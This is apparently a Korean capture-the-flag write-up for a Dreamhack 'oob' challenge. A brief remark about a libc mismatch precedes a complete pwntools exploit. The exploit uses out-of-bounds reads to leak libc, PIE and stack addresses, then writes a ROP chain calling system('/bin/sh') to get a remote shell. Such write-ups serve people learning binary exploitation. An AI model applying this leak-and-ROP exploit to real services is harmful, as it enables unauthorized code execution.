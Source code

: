 도커에서 libc을 추출하고 gdb을 깔고 다시 libc을 갈아끼웠을 때 분명 안 됐는데, 그냥 내 우분투에서 libc를 쓰니까 바로 됐다... 진짜 억울하고 화난다. 앞으로는 이 방법으로 해야겠다..

ps. 도와주셔서 감사합니다 :)
```python
```python
from pwn import *

p = remote('host3.dreamhack.games', 8857)
l = ELF('./libc.so.6')
e = ELF('./oob')

def r(offset):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'offset: ', str(offset).encode())
    return p.recvn(1)

def w(offset, payload):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'offset: ', str(offset).encode())
    p.sendlineafter(b'value: ', str(payload).encode())

libc_base = b''
for i in range(16, 16 + 6):
    libc_base += r(i)
libc_base = u64(libc_base + b'\x00' * 2) - l.symbols['_IO_2_1_stdout_']
print("libc_base : " + hex(libc_base))

pie_base = b''
for i in range(-8, -8 + 6):
    pie_base += r(i)
pie_base = u64(pie_base + b'\x00' * 2) - e.symbols['__dso_handle']
print("pie_base : " + hex(pie_base))

environ = libc_base + l.symbols['__environ']
oob = pie_base + e.symbols['oob']
stack = b''
for i in range(environ - oob, environ - oob + 6):
    stack += r(i)
stack = u64(stack + b'\x00' * 2) - (0x7fffffffe768 - 0x7fffffffe640)
print("stack : " + hex(stack))

pop_rdi = libc_base + 0x000000000002a3e5
system = libc_base + l.symbols['system']
binsh = libc_base + list(l.search(b'/bin/sh'))[0]

offset = stack - oob

w(offset + 8 * 1, pop_rdi + 1)
w(offset + 8 * 2, pop_rdi)
w(offset + 8 * 3, binsh)
w(offset + 8 * 4, system)
p.sendlineafter(b'> ', b'3')

p.sendline(b'ls')

p.interactive()
```
```